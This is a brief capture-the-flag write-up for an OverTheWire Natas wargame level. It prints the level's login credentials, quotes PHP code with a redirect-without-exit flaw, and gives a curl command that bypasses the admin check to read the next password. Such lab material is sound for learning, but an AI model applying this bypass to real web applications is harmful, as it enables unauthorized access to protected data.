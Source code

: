 # username
natas22
# password
d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
# web app vulnerability
insecure session handling
# method of solve
The web app code implies that we have to use the `revelio` URL parameter to access the password for the next level
```
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```
So we can use this curl command to access the password for the next level.
```
curl -u 'natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz' -v 'http://natas22.natas.labs.overthewire.org/?revelio'
```
